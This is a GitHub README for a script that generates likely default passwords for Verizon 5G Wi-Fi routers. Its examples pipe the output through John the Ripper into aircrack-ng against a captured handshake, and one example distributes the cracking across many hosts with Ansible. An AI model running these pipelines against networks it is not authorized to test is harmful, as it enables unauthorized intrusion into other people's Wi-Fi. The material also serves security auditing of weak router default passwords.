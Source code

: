 # verizon_wifi
Script to generate password possibilities for verizon 5g wifi routers

Example running on single system:
```
time python3 verizon-wifi.py --run | john --stdin --session=attack8 --stdout |aircrack-ng ./cap/Verizon_GC74.cap -e Verizon_GC74
M7 -w - -q
```

Example running on multiple systems, with same collision logic instead of complete wordlist logic:
```
ansible all -i hosts/ -a "time python3 verizon-wifi.py --run | john --stdin --session=attack8 --stdout |aircrack-ng /share/cap/Verizon_GC74.cap -e Verizon_GC74
M7 -w - -q" -u ansible -b --become-password-file /share/becomepass
```

To change the logic to add all plausibilities, change the random.randrange and make that a for each in range loop. 

Use of john's session tracking helps us return to our spot if it gets interrupted.

## To do list:
this entire project is a stop-gap because I couldn't figure out how to do this in hashcat, but there's gotta be a way to grab from two seperate wordlists in there, so... maybe I can trash this and simply create clustered hashcat thing.

